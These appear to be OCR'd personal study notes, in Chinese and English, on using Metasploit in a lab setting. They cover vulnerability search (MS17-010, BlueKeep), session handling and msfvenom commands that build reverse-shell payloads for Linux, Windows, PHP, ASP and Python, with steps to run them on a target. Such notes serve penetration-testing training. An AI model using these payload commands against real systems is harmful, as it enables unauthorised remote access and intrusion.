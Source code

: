				-->  services -S netbios  
		--> example : 	
			--> search MS17-010
			--> hosts -R 10.10.165.109
			
		--> 容易實現的目標 low-hanging fruits  --> get  root
			--> HTTP : SQL 注入 //  RCE 
			--> FTP  : 匿名登入並提供對有趣檔案的存取
			--> SMB  : MS17-010 等SMB漏洞的攻擊
			--> SSH  : 預設或容易猜測的憑證
			--> RDP  : Bluekeep 的攻擊或允許桌面存取
			
		--> vnc_login 模組可以幫助我們找到VNC服務的登入詳細資訊
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Exploitation
		--> search 命令搜尋漏洞利用程序
		--> info 命令獲取有關該漏洞利用程序的更多信息
		--> exploit 啟動該漏洞程序
		
		--> show payloads => set payload => show options => set P/LHOST =>exploit
			--> in => C:\Windows\system32>
			--> CTRL+Z 將其置於背景 
		--> sessions 命令將列出所有活動會話 =>  sessions -h
			--> sessions -i後接會話 ID 的命令與任何現有會話進行互動
			-->  > sessions -i 1
			
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> Msfvenom : Msfpayload 和 Msfencode
		--> 不同的目標系統（Apple、Windows、Android、 Linux等）
		--> 建立多種不同格式（PHP、exe、dll、elf 等）的payload
		--> msfvenom -l payloads 
		
		--> Output formats  : msfvenom --list formats
		--> Encoders raw -e 
			--> msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
		--> Handlers : 反向 shell 的漏洞類似
			--> msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
				--> 輸出PHP檔案將錯過註釋的起始PHP標記和結束標記 ( ?>) | cat reverse_shell.php
				--> 從檔案開頭刪除的註解 (<?php) and 新增了結束標籤 (?>)
	 		--> msf6 > use exploit/multi/handler => run
	 		
	 --> Other Payloads (反向負載) : 
	 	--> 偵聽exploit/multi/handler模​​組 --LHOST 和 LPORT 
	 	
	 	--> Linux可執行和可連結格式 (elf)
	 		--> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
	 		--> 一旦目標電腦上有 shell.elf 文件，請使用 chmod +x shell.elf 指令授予可執行權限
	 		--> ./shell.elf 來執行此檔案
	 	--> Windows 
	 		--> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
	 	--> PHP
	 		--> msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
	 	--> ASP
	 		--> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
	 	--> Python
	 		--> msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
	 		